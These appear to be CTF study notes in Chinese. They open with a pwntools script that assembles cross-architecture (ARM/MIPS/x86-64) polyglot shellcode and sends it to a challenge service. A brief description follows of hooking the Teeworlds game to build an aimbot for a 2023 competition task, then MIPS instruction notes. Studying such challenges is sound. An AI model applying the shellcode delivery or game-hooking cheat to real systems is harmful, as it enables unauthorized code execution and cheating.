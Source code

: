 ```python
arm_jmp   = bytes.fromhex('2c0000ea') # b 0x2c arm64
jmp_0x36_x86_x64 = bytes.fromhex('eb34001c') # jmp 0x36

#    2273ff9c        addi    s3, s3, -100
#    1a600050        blez    s3, 0x144
#    2273ff9c        addi    s3, s3, -100 !!! nop
#    2273ff9c        addi    s3, s3, -100 !!! nop

mips_jmp = bytes.fromhex('2273ff9c1a6000512273ff9c2273ff9c')
#mips_jmp = bytes.fromhex('1ae0003b')


test = arm_jmp + mips_jmp + jmp_0x36_x86_x64 + arm64_sc + x86_x64_jmp + x64_sc
test = test.ljust(0xbc,b'a') # len: 0xbc
test += arm_sc               # len: 0xf0  arm_sc : 52
test += mips_sc              # len: 0x134 mips_sc: 68

#print(disasm(mips_sc,arch='mips',endian='big'))

#test = test.ljust(0x150,b'a')
test += bytes.fromhex('18000000') # bug

#  0:   1800ffea        blez    zero, 0xffffffac
#  mips jump back
test += bytes.fromhex('1800ffe7')

print(len(test))
print((test).hex())
print(pow(0x1000/len(test),6))



io.recvuntil(b"Shellcode >")
io.send(test)
io.interactive()
```

还有2023年强网杯

teeworlds 是一个射击和夺旗的开源C语言游戏，基本的逻辑上就是写一个hook函数，去实现自动瞄准
主要的思路是先去找角色的移动，因为按键输入方向以后，游戏要识别对应的方向，可以写一个hook函数，print出每次输入的结果，这里面还包括了点击子弹的操作
找到它开枪方向的处理函数，通过游戏本身的接口函数获取敌人的坐标，然后传入开枪方向的函数里就能实现简单的自动瞄准了



+ ==关于arm/mips等指令集？==

mips是大端序，定长指令，❗不管跳不跳，beq 之后那一条指令（延迟槽）总会执行！

lw 载入 从右往左存储
sw 存储 从左往右存储
lui 载入高位立即数 一般是0x1235 即16位2字节，低2字节自动补0
ori 载入低16位
li 载入立即数
la 载入字符串
move
sll 逻辑左移
srl 逻辑右移
beq b eq 相等跳转 
bne b not eq 不相等跳转
blez b little eq zero 如果左边小于0就跳转
slt small lt 小于置位 slt $t0 $t1 $t2 就是判断t1和t2 
slti small lt i
